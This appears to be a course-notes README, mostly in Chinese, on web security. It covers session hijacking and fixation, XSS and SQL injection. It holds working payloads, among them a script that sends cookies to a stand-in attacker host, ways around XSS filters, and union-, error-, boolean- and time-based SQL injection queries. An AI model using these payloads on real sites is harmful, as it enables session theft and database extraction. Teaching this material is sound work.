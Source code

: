 # Web Security
Slides:
 * [Web_Security](Web Security_1120.pdf)
 * [Burp Suite Tutorial](Burp_Suite.pdf)

## Why Cookie/Session?
HTTP 是stateless protocol, 你要怎麼知道user 已經登入你的網站？By Cookie/Session!
 * Server端：發行session_id給client，並建立session_id entry, 以後用這個session_id來辨認使用者是否已經成功登入
 * Client端：用帳號密碼登入後，拿到server傳來的cookie(session_id)，存起來，以後可以直接用cookie和server做身份驗證，而不用整個做帳號密碼驗證。

### Hacking session_id
 * bruteforce
 * session hijacking：XSS傳給attacker，sniff封包
 * session fixation：如果server可以接受任何session_id(from query string)且沒有其他安全機制的話，那attacker可以傳送`http://unsafe.haha.com/session_id=some_fixed_sid`給victim，如果victim點開連結，成功登入後，server端會把some_fixed_sid 當成valid login-session (如果沒有衝突)存起來。那麼attacker只要 打開`http://unsafe.haha.com/session_id=some_fixed_sid`就能看見victom 帳戶內容了。

## XSS
Cross-Site Script: 你可以讓Javascript code在其他user 的瀏覽器上執行，可以下載malicious file, 偷cookie,...
 * Reflected XSS: 當網站把收到的**user input直接include 到網頁**裡，像這樣：
```php
<input type="text" name="mail" value="<?php echo $_GET['m']; >">
```
XSS攻擊：`"><script>alert("XSS")</script>`
或載入程式碼並執行：
```js
<script src="http://www.evilsite.com/xss.js"></script>
```
 * persistent XSS: 當網站不只直接讀入**user input**，還把user input存到persisten storage(ex: 資料庫)裡，然後讀出來呈現在網頁上。那麼狀況更糟，注入javascipt code後，任何瀏覽那個網頁的user都會被攻擊。例如：一個blogger網站，會存入任何你給的blog entry 然後show在網頁上，如果你想要都任何瀏覽過你blog的人的session_id，可以這樣做：
```js
<script>window.location='http://attacker/?cookie='+document.cookie</script>
```

### XSS Defense/Passby
 * 過濾`script`：Passby - `<ScriPt></scRiPt>`, `<sccriptript></sccriptript>`
 * 過濾`"`, `'`：Passby - `<script>alert(String.fromCharCode(...))</script>`
 * 設定HttpOnly(禁止用Javascript讀出cookie)：Passby - 很多瀏覽器沒有預設

## SQL Injection
 * 可以看到錯誤訊息：
  * Union-Based：通常和Select 一起用，Union上相同欄位的資料。Ex: `SELECT *FROM users WHERE id=1`：
```sql
SELECT FROM users WHERE id=1 UNION SELECT 1,2,3,4,5
```
```sql
-- 猜欄位
SELECT FROM users WHERE id=1 ORDER BY 5;
```
如果猜中欄位數會把`id=1`結果和`1,2,3,4,5`一起印出來，之後將`1,2,3,4,5`可以替換成其他資訊
```sql
version(),  user() database()
-- 資料庫schema
SELECT schema_name FROM informtion_schema.schema
-- Table
SELECT table_name FROM information_schema.tables
-- Column
SELECT column_name FROM information_schema.columns
```
  * Error-Based
```sql
-- 沒很懂，but it works..
SELECT * FROM users WHERE id=1 and (select 1 from(select count(*),concat((select (select concat(0x27,user(),0x27)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) = 1;
```
`ERROR 1062 (23000): Duplicate entry ''root@localhost'1' for key 'group_key'`
```sql
-- ExtractValue:
SELECT * FROM users WHERE id=1 AND extractvalue(rand(), (SELECT user()))=1
```
`ERROR 1105 (HY000): XPATH syntax error: '@localhost'`
 * 只能看到成功或失敗
  * Boolean-Based
```sql
-- 猜注入口是接受數字還是字串
SELECT * FROM users WHERE id=1 AND 1=1
-- 如果是數字就更方便了
-- 猜user1 第一個字母
SELECT * FROM users WHERE id=1 AND substr((SELECT name FROM users LIMIT 0,1), 1, 1)='a'
-- 用Ascii 猜字母
SELECT * FROM users WHERE id=1 AND ascii(substr((SELECT name FROM users LIMIT 0,1), 1, 1)) < 64
```
  * Time-Based
```sql
SELECT * FROM users WHERE id=1 AND (sleep(2))
-- if it works, then combine with if()
SELECT * FROM users WHERE id=1 AND if((substr((SELECT name FROM users LIMIT 0,1), 1, 1)='a'), sleep(2), 1)
```
## Today's Vulnerable
 * [alert(1) to win](http://escape.alf.nu/)
 * [prompt(1) to win](http://prompt.ml/0)
 * [XSS game](https://xss-game.appspot.com/)
